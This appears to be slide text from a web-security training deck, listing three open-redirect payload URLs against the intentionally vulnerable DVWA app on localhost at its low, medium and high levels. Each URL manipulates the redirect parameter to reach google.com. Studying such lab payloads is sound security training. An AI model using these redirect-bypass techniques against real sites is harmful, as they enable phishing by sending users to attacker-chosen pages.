

# Open HTTP Redirect Payloads
http://localhost/DVWA/vulnerabilities/open_redirect/source/low.php?redirect=//google.com
http://localhost/DVWA/vulnerabilities/open_redirect/source/medium.php?redirect=//google.com
http://localhost/DVWA/vulnerabilities/open_redirect/source/high.php?redirect=https://google.com/?a=info.php